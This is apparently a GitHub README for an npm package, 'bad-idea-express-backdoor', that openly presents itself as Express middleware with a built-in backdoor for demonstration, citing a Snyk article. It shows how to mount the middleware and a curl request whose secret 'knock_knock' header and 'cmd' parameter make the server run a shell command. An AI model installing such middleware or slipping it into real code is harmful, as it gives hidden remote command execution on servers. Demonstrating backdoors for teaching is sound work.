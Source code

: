 # bad-example-express-backdoor

express middleware containing a backdoor

for demonstration purposes only

from the [excellent Snyk blog post](https://snyk.io/blog/what-is-a-backdoor/).


### usage

```js
const express = require("express")
const expressBackdoor = require("bad-idea-express-backdoor")

const app = express();

app.use(expressBackdoor())

app.get("/", (req, res)=>{
  res.send("Hello Chrome User!")
})

app.listen(8080)
```

### try it

```bash
node example.js
```

in another terminal, send commands to the backdoor
```bash
$ curl -H 'knock_knock: p@ssw0rd1234' 'localhost:8080?cmd=uname%20-a'
{
  "err": null,
  "stdout": "Linux roon 5.0.0-38-generic #41-Ubuntu SMP Tue Dec 3 00:27:35 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux\n",
  "stderr": ""
}%
```